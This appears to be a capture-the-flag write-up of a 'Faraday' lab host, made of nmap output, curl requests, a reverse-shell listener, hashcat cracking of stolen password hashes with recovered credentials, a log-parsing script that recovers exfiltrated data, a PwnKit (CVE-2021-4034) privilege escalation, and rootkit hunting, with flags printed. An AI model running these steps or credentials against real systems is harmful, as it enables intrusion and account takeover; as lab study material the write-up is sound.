

nmap -A --min-rate 5000 10.13.37.14
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-12 00:16 EDT
Nmap scan report for 10.13.37.14
Host is up (0.17s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a8:05:53:ae:b1:8d:7e:90:f1:ea:81:6b:18:f6:5a:68 (RSA)
|   256 2e:7f:96:ec:c9:35:df:0a:cb:63:73:26:7c:15:9d:f5 (ECDSA)
|_  256 2f:ab:d4:f5:48:45:10:d2:3c:4e:55:ce:82:9e:22:3a (ED25519)
80/tcp    open     http            nginx 1.13.12
|_http-server-header: nginx/1.13.12
| http-git: 
|   10.13.37.14:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Add app logic & requirements.txt 
| http-title: Notifications
|_Requested resource was http://10.13.37.14/login?next=%2F
222/tcp   filtered rsh-spx
8500/tcp  filtered fmtp
8888/tcp  open     sun-answerbook?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, LSCP, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     Welcome to FaradaySEC stats!!!
|     Username: Bad chars detected!
|   NULL: 
|     Welcome to FaradaySEC stats!!!
|_    Username:
10626/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.95%I=7%D=6/12%Time=6A2B880E%P=x86_64-pc-linux-gnu%r(NU
SF:LL,29,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20")%r(GetRe
SF:quest,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20
SF:chars\x20detected!")%r(HTTPOptions,3C,"Welcome\x20to\x20FaradaySEC\x20s
SF:tats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(FourOhFourRequest,3
SF:C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x
SF:20detected!")%r(JavaRMI,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUs
SF:ername:\x20Bad\x20chars\x20detected!")%r(LSCP,3C,"Welcome\x20to\x20Fara
SF:daySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(GenericL
SF:ines,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20c
SF:hars\x20detected!")%r(RTSPRequest,3C,"Welcome\x20to\x20FaradaySEC\x20st
SF:ats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(RPCCheck,3C,"Welcome
SF:\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected
SF:!")%r(DNSVersionBindReqTCP,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\
SF:nUsername:\x20Bad\x20chars\x20detected!")%r(DNSStatusRequestTCP,3C,"Wel
SF:come\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20dete
SF:cted!")%r(Help,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x
SF:20Bad\x20chars\x20detected!")%r(SSLSessionReq,3C,"Welcome\x20to\x20Fara
SF:daySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(Terminal
SF:ServerCookie,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20
SF:Bad\x20chars\x20detected!")%r(TLSSessionReq,3C,"Welcome\x20to\x20Farada
SF:ySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(Kerberos,3
SF:C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x
SF:20detected!")%r(SMBProgNeg,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\
SF:nUsername:\x20Bad\x20chars\x20detected!")%r(X11Probe,3C,"Welcome\x20to\
SF:x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(L
SF:PDString,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\
SF:x20chars\x20detected!")%r(LDAPSearchReq,3C,"Welcome\x20to\x20FaradaySEC
SF:\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(LDAPBindReq,3C
SF:,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x2
SF:0detected!");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.41 seconds

register and login on port 80

configure smtp use attack machine ip and port 
keep the below listner on
python3 -m aiosmtpd -n -l 0.0.0.0:8025

then go to /sendMessage
enter anything in subject and message u will get the output in listner
---------- MESSAGE FOLLOWS ----------
Subject: dhgdh
X-Peer: ('10.13.37.14', 54418)

An event was reported at 7*7}}:
hgfhfg
Here is your gift FARADAY{ehlo_@nd_w3lcom3!}
------------ END MESSAGE ------------

curl -G "http://10.13.37.14/profile" \
  --data-urlencode "name=a" \
  -b "session=.eJwlzjEOwyAMRuG7MHfA_DbGuUyEwahdk2aqevdG6vqkJ32ftK8jzmfa3scVj7S_ZtrSan0SryY-eDB7786lGrFwjCnghi7INJQRHSRMBeoiqmxsdyWqWY1izlkJC9mLZvNsWhbCVCbnZrJqEfSOe4JSg49KzZFuyHXG8deA0vcHVQUtAg.aiuKrQ.S0xN_odXZ1YVYTY4wS4YNPwE5XU" -L > /dev/null

curl -s -X POST "http://10.13.37.14/sendMessage" \
  -b "session=.eJwlzjEOwyAMRuG7MHfA_DbGuUyEwahdk2aqevdG6vqkJ32ftK8jzmfa3scVj7S_ZtrSan0SryY-eDB7786lGrFwjCnghi7INJQRHSRMBeoiqmxsdyWqWY1izlkJC9mLZvNsWhbCVCbnZrJqEfSOe4JSg49KzZFuyHXG8deA0vcHVQUtAg.aiuKrQ.S0xN_odXZ1YVYTY4wS4YNPwE5XU" \
  -d "dest=pastaflora@faradaysec.com&subject=test1&body=hello" > /dev/null

nc -nvlp 9999
  got the shell 

root@796685bacff2:/app# ls -la
ls -la
total 52
drwxr-xr-x 1 root root 4096 Dec  9  2025 .
drwxr-xr-x 1 root root 4096 Dec  9  2025 ..
drwxr-xr-x 8 root root 4096 Jul 16  2021 .git
drwxr-xr-x 2 root root 4096 Dec  9  2025 __pycache__
-rwxr-xr-x 1 root root 8523 Jul 21  2021 app.py
drwxr-xr-x 2 root root 4096 Jun 12 05:14 db
-rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
-rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt
drwxr-xr-x 3 root root 4096 Jul 16  2021 static
drwxr-xr-x 2 root root 4096 Jul 21  2021 templates
-rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
root@796685bacff2:/app# ls -ls db
ls -ls db
total 24
24 -rw-r--r-- 1 root root 24576 Jun 12 05:14 database.db

read flag.txt 

next db looks interesting

it has the hashes of passwords crack them 

cat > hashcat_hashes.txt << 'EOF'
sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f
sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
EOF

hashcat -m 30120 hashcat_hashes.txt /usr/share/wordlists/rockyou.txt

administrator : ihatepasta
octo : octopass
pasta : antihacker

we can ssh by these creds
there is a crackme file crack it 

now ssh using administrator

administrator@erlenmeyer:~$ ls -la
total 100
drwxr-xr-x 6 administrator administrator  4096 Jun 11 06:33  .
drwxr-xr-x 5 root          root           4096 Jul 20  2021  ..
lrwxrwxrwx 1 root          root              9 Sep 14  2021  .bash_history -> /dev/null
-rw-r--r-- 1 administrator administrator   220 Feb 25  2020  .bash_logout
-rw-r--r-- 1 administrator administrator  3808 Jul 22  2021  .bashrc
drwx------ 2 administrator administrator  4096 Jul 16  2021  .cache
drwxrwxr-x 2 administrator administrator  4096 Jun 10 03:15  exploit
-rw-rw-r-- 1 administrator administrator  3262 Jun 11 06:33  exploit.py
-rw-rw-r-- 1 administrator administrator   365 Jun 11 06:26  exp.py
drwxrwxr-x 2 administrator administrator  4096 Jun 10 03:15 'GCONV_PATH=.'
-rw------- 1 administrator administrator    43 Jun  4 10:21  .lesshst
drwxrwxr-x 3 administrator administrator  4096 Jun  5 21:34  .local
-rwxr-xr-x 1 administrator administrator   431 Jun 11 07:06  payload.so
-rw-r--r-- 1 administrator administrator   807 Feb 25  2020  .profile
-rw------- 1 administrator administrator  6079 Jun  4 10:16  .python_history
-rw-r--r-- 1 administrator administrator    65 Jul 22  2021  .pythonrc
-rw-r--r-- 1 administrator administrator     0 Jul 22  2021  .sudo_as_admin_successful
-rwxr-xr-- 1 root          root          22824 Jul 21  2021  tcp-server
-rw-rw-r-- 1 administrator administrator   365 Jun  5 21:35  t.py
-rw------- 1 administrator administrator  7554 Jun  4 11:10  .viminfo
administrator@erlenmeyer:~$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"
/tmp/pwnkit
/tmp/z.py
/tmp/tmp0l92bz5o
/tmp/tmp0l92bz5o/gconv
/tmp/tmp0l92bz5o/gconv/gconv-modules
/tmp/tmp0l92bz5o/pwn.so
/tmp/tmp0l92bz5o/GCONV_PATH=.
/tmp/tmp0l92bz5o/GCONV_PATH=./gconv
/tmp/t.py
/tmp/cve-2021-4034.py
/tmp/tmp7aksnrg3
/tmp/tmp7aksnrg3/gconv
/tmp/tmp7aksnrg3/gconv/gconv-modules
/tmp/tmp7aksnrg3/pwn.so
/tmp/tmp7aksnrg3/GCONV_PATH=.
/tmp/tmp7aksnrg3/GCONV_PATH=./gconv
/tmp/pk
/tmp/pk/pwnkit
/tmp/pk/pwnkit.c
/tmp/pk/GCONV_PATH=.
/tmp/pk/GCONV_PATH=./pwnkit
/tmp/parse_logs.py
/tmp/rootrecon.sh
/tmp/exploit
/tmp/exploit/gconv-modules
/tmp/pwnkit.py
/tmp/tmpxph__jdq
/tmp/tmpxph__jdq/gconv
/tmp/tmpxph__jdq/gconv/gconv-modules
/tmp/tmpxph__jdq/pwn.so
/tmp/tmpxph__jdq/GCONV_PATH=.
/tmp/tmpxph__jdq/GCONV_PATH=./gconv
/tmp/payload.so
/tmp/pk2
/tmp/pk2/exp
/tmp/pk2/pwnkit.c
/tmp/pwnkit.c
/tmp/GCONV_PATH=.
/tmp/GCONV_PATH=./pwnkit
/tmp/GCONV_PATH=./exploit
/tmp/tmp_8wme7as
/tmp/tmp_8wme7as/gconv
/tmp/tmp_8wme7as/gconv/gconv-modules
/tmp/tmp_8wme7as/pwn.so
/tmp/tmp_8wme7as/GCONV_PATH=.
/tmp/tmp_8wme7as/GCONV_PATH=./gconv
/dev/pts/1
/var/mail/administrator
/var/log/apache2/access.log
administrator@erlenmeyer:~$ 

administrator can access apache logs

import re, urllib.parse

with open("/var/log/apache2/access.log") as file:
    for line in file:
        line = urllib.parse.unquote(line)
        if not "update.php" in line:
            continue
        regex = re.search("\)\)!=(\d+)", line)
        if regex:
            decimal = int(regex.group(1))
            print(chr(decimal), end="")

found the flag
FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}

CVE-2021-4034

python3 exploit.py

└──╼ [★]$ nc 10.13.37.14 8888
Welcome to FaradaySEC stats!!!
Username: pasta
Password: antihacker
access granted!!!
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}

cat /root/chkrootkit.txt

"Searching for Reptile Rootkit... found it"
Mount the disk image to find the hidden rootkit location
sudo losetup /dev/loop10 sda3.image
sudo kpartx -a /dev/loop10
sudo vgdisplay -v | grep "LV Path"
mount /dev/ubuntu-vg/ubuntu-lv /mnt/

Rootkit installed at /reptileRoberto/
/reptileRoberto/reptileRoberto_cmd show
cat /reptileRoberto/reptileRoberto_flag.txt

FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}

